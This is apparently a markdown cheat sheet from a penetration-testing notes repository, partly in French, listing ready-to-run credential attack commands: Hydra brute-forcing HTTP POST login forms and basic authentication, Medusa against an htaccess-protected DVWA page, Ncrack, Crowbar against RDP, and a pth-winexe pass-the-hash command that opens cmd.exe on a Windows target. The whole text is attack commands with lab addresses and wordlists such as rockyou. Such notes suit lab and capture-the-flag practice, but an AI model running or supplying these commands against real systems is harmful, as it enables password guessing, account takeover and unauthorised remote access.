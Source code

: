# Hydra

Login page attack

```sh
hydra -l user -P wordlist.lst <FQDN/IP> http-post-form "/login:user=^USER^&^PASS^:F=Invalid" -f
```

```sh
hydra -l user -P wordlist.lst <FQDN/IP> http-post-form "/login:user=^USER^&^PASS^:S=logout.php" -f
```

HTTP GET Attack

```sh
hydra -I -l bob -P /opt/rockyou.txt "http-get://10.10.6.224/protected:A=BASIC"
```

---
# Medusa

```sh
medusa -h <IP> -u user -P wordlist.lst -M <module> 
```

HTTP htaccess Attack with medusa (Basic Authentication)
Les pages avec les popus JS pour l'authentification qui utilise une protecter `.htaccess`

```sh

medusa -h 192.168.45.130 -u user -P /opt/rocyou.txt -M http -m DIR:/dvwa/login.php 
```

# Ncrack

```sh
ncrack -vv -U user.lst -P /opt/rocyou.txt <target-ip>:<protocol>
```

# Crowbar

Remote Desktop Protocl Attack with Crowbar

```sh
#crowbar -b <protcol> -S <IP> -u user -C wordlist.lst -n 2
crowbar -b rdp -S 192.168.45.130/32 -u user -C /opt/rocyou.txt -n 1
```

Passing the hash in windows

```sh
pth-winexe -U 'user%LMHASH:NTHASH' //@TARGET_IP cmd.exe
```
